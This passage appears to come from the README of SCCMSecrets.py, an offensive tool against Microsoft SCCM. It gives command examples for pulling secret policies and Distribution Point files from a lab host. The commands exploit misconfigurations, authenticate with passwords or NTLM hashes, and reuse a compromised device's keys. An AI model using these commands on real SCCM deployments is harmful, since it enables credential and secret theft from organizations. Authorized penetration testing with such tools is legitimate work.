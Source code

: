 Retrieve secret policies without providing a machine account. This will attempt to exploit the automatic device approval misconfiguration (non-default configuration)
```
$ python3 SCCMSecrets.py policies -mp http://mecm.sccm.lab -cn 'test'
```

Retrieve secret policies by providing a machine account. This will work in default SCCM configurations
```
$ python3 SCCMSecrets.py policies -mp http://mecm.sccm.lab -u 'azule$' -p 'Password123!' -cn 'test'
```

Retrieve secret policies of an already existing device. The `compromised_device` folder contains a `guid.txt` and `key.pem` file.
```
$ python3 SCCMSecrets.py policies -mp http://mecm.sccm.lab --use-existing-device compromised_device/
```

Retrieve secret policies when the Management Point enforces HTTPS
```
$ python3 SCCMSecrets.py policies -mp https://mecm.sccm.lab -u 'azule$' -H '2B576ACBE6BCFDA7294D6BD18041B8FE' -cn 'test' --pki-cert ./cert.pem --pki-key ./key.pem
```


### Files

Retrieve Distribution Point files without providing credentials. This will attempt to exploit anonymous DP access (non-default configuration)
```
$ python3 SCCMSecrets files -dp http://mecm.sccm.lab
```

Retrieve Distribution Point files with credentials. This will work in default SCCM configurations
```
$ python3 SCCMSecrets.py files -dp http://mecm.sccm.lab -u 'dave' -p 'dragon'
```

Retrieve files wih a specific list of extensions. Authenticate with the machine account's hash
```
$ python3 SCCMSecrets.py files -dp http://mecm.sccm.lab -u 'dave' -H 'F7EB9C06FAFAA23C4BCF22BA6781C1E2' --extensions '.txt,.xml,.ps1,.pfx,.ini,.conf'
```

Retrieve specific files from the Distribution Point by providing a list of URLs (1 by line)
```
$ python3 SCCMSecrets.py files -dp http://mecm.sccm.lab -u 'dave' -p 'dragon' --urls to_download.lst
```

Retrieve DP files when the Distribution Point enforces HTTPS
```
$ python3 SCCMSecrets.py files -dp https://mecm.sccm.lab -u 'dave' -p 'dragon' --pki-cert ./cert.pem --pki-key ./key.pem
```